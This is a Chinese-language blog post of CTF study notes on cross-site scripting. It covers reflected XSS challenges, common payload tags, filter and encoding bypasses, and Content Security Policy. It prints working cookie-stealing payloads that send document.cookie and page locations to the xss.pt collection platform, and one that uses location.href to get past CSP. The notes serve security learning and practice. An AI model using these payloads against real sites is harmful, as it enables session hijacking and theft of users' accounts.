 ```yaml
---
author: "Yiming Shen"
date: 2022-02-26
lastmod: 2022-03-07
title: "XSS类型题目积累及资料"
tags: [
    "CTF",
    "XSS",
    "Web",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
showtoc: true
math: true
typora-root-url: ..\..\..\..\static\
---
```


> 跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 WEB 应用程序中的计算机安全漏洞，是由于 WEB 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

## 反射型XSS

> 反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。

### 无过滤反射型 

#### Web316 - [XSS平台](https://xss.pt)

![image-20220226192829187](/xss.assets/%7D/image-20220226192829187.png)

抓包后cookie提示flag在此，但需要管理员身份。

即生成链接诱骗管理员（本题为BOT）点击获取其cookie。

**借助XSS平台**
平台上放置脚本（可自行搭建）

```php
(function(){(new Image()).src='https://xss.pt/xss.php?do=api&id=Sh8s&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if(''==1){keep=new Image();keep.src='https://xss.pt/xss.php?do=keepsession&id=Sh8s&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
```

[Xss平台](https://xss.pt) 注册登录后创建项目，将其提供的xss代码（引导访问其链接从而存储信息）填入框中，即可获得管理员访问cookie。

![image-20220226201645270](/xss.assets/%7D/image-20220226201645270.png)

### 过滤反射型

#### Web317 - \<onload\>

```html
<BODY ONLOAD=document.location='https://xss.pt/Sh8sp.jpg?cookie='+document.cookie;></body>
```

> **window.onload()** 方法用于在网页加载完毕后立刻执行的操作，即当 HTML 文档加载完毕后，立刻执行某个方法。

#### 空格过滤

换成`/**/`


## 常见执行`XSS`的标签

```html
<script src="*.js"></script>

<script>alert(1)</script>

<img src="s" onerror=alert('xss')></img>

<link rel="import" href="*.html">

<iframe src="javascript:alert(1)"></iframe> <!-JavaScript伪协议->

<a href="javascript:alert(1)">click</a>

<svg/onload=alert(1)>

<h1 onmousemove="alert('moved!')">Title1</h1>
    
<iframe src = "data:text/html;base64,_base64codehere="></iframe> <!-Data伪协议->
    
    
<img src="s" onerror=document.location='https://xss.pt/Sh8sp.jpg?cookie='+document.cookie;></img>
```

## XSS过滤和绕过

> XSS主要在**代码层**和**WAF层**实现过滤

### 编码过滤

1. 对payload进行HTML实体编码过滤

   `alert(1)`编码成`&#x61 &#x6c...`

   payload在标签属性中触发事件前，浏览器已经对payload进行了一次解码，即从实体编码转换成了常规数据。

2. 通过闭合JS语句逃逸payload

   `var url = 'http://xss.com/?name=<?=$name?>'+'<?=$address?>';`

   可转义第一个引号使其和第二个参数的引号闭合 在第二个参数内插入payload

### CSP过滤

> **C**ontent **S**ecurity **P**olicy，内容安全策略。是一个额外的安全层，用于检测并削弱特定类型的攻击。

设置CSP策略后，将通过指定有效域——即浏览器认可的可执行脚本的有效来源——使服务器管理者有能力减少或消除XSS攻击所依赖的载体。

#### CSP如何工作

1. 通过响应包头实现

   ```htaccess
   Content-Security-policy: default-src 'self'; script-src 'self' allowed.com; img-src 'self' allowed.com; style-src 'self';
   ```

2. 通过HTML元标签实现

   ```html
   <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
   ```

 [CSP Evaluator](https://link.segmentfault.com/?enc=S%2FuAV9xAPsV9LSRQyBP9WA%3D%3D.z2rAfMwDRlsYWhHjRMfZa%2F6a9gM73YZ4DQ0TstGCamu2MU5csmlZ9ECOzmNxSYHN)

#### 绕过方法

> `location.href`绕过

CSP不影响location.href跳转，因为在大多数网站中的跳转功能都是靠前端实现的，如果限制跳转将会使网站很大一部分功能受到影响，所以利用跳转来绕过CSP是一个万能的方法:

```html
<script>location.href="http://127.0.0.1"+document.cookie;</script>
```



## 参考

[1] [XSS平台的使用](http://zhuabapa.top/2019/12/25/XSS%E5%B9%B3%E5%8F%B0%E4%BD%BF%E7%94%A8/)

[2] [从0到1:CTFer成长之路](#xss)

[3] [合天网安实验室-CSP浅析与绕过](https://segmentfault.com/a/1190000039996161)